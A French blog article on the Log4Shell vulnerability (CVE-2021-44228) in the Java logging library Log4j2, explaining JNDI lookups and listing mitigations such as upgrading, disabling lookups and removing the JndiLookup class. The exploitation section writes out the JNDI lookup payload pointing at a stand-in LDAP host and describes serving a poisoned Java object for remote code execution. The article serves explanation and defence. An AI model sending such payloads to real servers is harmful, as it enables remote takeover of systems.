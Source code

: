 ```yaml
---
title: Log4j, une vulnérabilité d'une ampleur inédite
author: Eban
category: informatics
date: December 11, 2021
description: Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le petit monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article. Log4j2 est une bibliothèque Java permettant de générer des logs, c'est comme le Port-Salut, c'est écrit dessus 😉. Cette bibliothèque est extrêmement utilisé par de nombreuses entreprises, comme, pour ne citer qu'elles, Apple, Steam, Twitter, Amazon, Tesla ou encore Microsoft. Le problème est qu'une vulnérabilité a été découverte sur ce logiciel. Cette vulnérabilité était passée jusqu'alors inaperçue, le 9 décembre un utilisateur de Github, wcc526, interroge l'auteur d'une pull request corrigeant cette faille à propos de celle ci. S'ensuit la publication d'une CVE et d'un Proof Of Concept.
highlighted: Yes
published: Yes
slug: log4j2
initialPublisher: I Learned
initialLink: https://blog.ilearned.eu/log4j.html
icon: tabler-file-isr
cover: https://uploads0.wikiart.org/images/frantisek-kupka/fanny-machine-the-machinery-1928.jpg
coverDescription: The machinery, 1928 - František Kupka
---
```



Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)) a ébranlé le monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.

[Log4j2](https://github.com/apache/logging-log4j2) est une bibliothèque Java permettant de générer... des logs. Cette bibliothèque est extrêmement utilisé par de nombreuses entreprises, comme, pour ne citer qu'elles, Apple, Steam, Twitter, Amazon, Tesla ou encore Microsoft. Le problème est qu'une vulnérabilité a été découverte sur ce logiciel. Cette vulnérabilité était passée jusqu'alors inaperçue, le 9 décembre un utilisateur de Github, `wcc526`, interroge l'auteur d'une pull request corrigeant cette faille à propos de celle ci. S'ensuit la publication d'une CVE et d'un Proof Of Concept.

![github.webp](log4j2/github.webp)

## 💥 Exploitation

L'exploitation de cette vulnérabilité est triviale, une simple suite de caractères comme `${jndi:ldap://example.com/a}` permet d'obtenir une RCE (Remote Code Execution) sur le serveur distant.

JNDI est l'acronyme de "Java Naming and Directory Interface", c'est une fonction de Java qui permet d'interroger des directories afin d'obtenir en retour un objet java. Un directory, c'est une sorte de base de donnée principalement utilisée en entreprise qui stocke des informations comme par exemple les utilisateurs, leurs droits, etc. On peut citer ActiveDirectory ou encore [LDAP](https://fr.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) comme exemple de directory bien connu. Java, à travers JNDI, supporte le directory bien connu LDAP. La syntaxe `jndi:ldap://example.com/a` interroge le serveur LDAP sur le serveur example.com et va télécharger l'objet a.

La syntaxe `${}`indique à Log4j qu'il faut évaluer ce qui est indiqué entre accolades. Par exemple, `${java:version}` renverra la version de java. Ici, `${jndi:ldap://example.com/a}` indique à Log4j d'évaluer (exécuter) l'objet présent à l'URI `ldap://example.com/a`.

Au vu de ces éléments, il est trivial d'obtenir une RCE sur le serveur distant. Il suffit de monter un serveur LDAP malicieux contenant un objet Java vérolé et de faire en sorte que `${jndi:ldap://SERVEUR/OBJET}` soit loggé.

Cette vulnérabilité est très inquiétante au vu de la facilité avec laquelle elle peut être exploitée. À la découverte de cette dernière, de nombreux bots ont scanné l'ensemble d'Internet à la recherche de serveur vulnérables. Le serveur qui héberge le site web que vous visitez en ce moment a été visité par certains d'entre eux.

![vm01.webp](log4j2/vm01.webp)

## 🧑‍🚒 Limiter les dégâts

Il existe plusieurs méthodes afin de mitiger cette faille de sécurité.

La première, la plus évidente, mettre à jour log4j vers la version 2.17.0 et/ou Java vers la version 8u121 (sortie début 2017). ⚠️ Les versions 2.15 et 2.16 sont respectivement vulnérables à une RCE et un attaque DOS ces versions ne sont donc pas à considérer comme sécurisées.

La seconde, mettre la variable `log4j2.formatMsgNoLookups` à `True`, ceci peut être fait en ajoutant l'argument `‐Dlog4j2.formatMsgNoLookups=True` à la commande permettant de lancer l'application Java. Ceci peut aussi être fait en ajoutant la variable d'environnement Linux `LOG4J_FORMAT_MSG_NO_LOOKUPS`.

La troisième, plus radicale, consiste à enlever purement et simplement la classe `JndiLookup` qui est la cause de cette vulnérabilité. Ceci peut être fait avec la commande `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` notamment.

Une autre solution plus amusante a été mise en place par Maayan-Sela et cr-mitmit, elle s'appelle `Logout4Shell`, c'est un logiciel en Java qui permet de patcher n'importe quel serveur vulnérable. Le code est disponible [ici](https://github.com/Cybereason/Logout4Shell).

Une autre solution, préventive cette fois, qui aurait pu limiter grandement les dégâts, est de bien cloisonner ses différents services. Ceci peut être fait au moyen de [services systemd renforcés](https://ilearned.eu/systemd-sandboxing.html), ou de technologies de conteneurisation comme Docker.
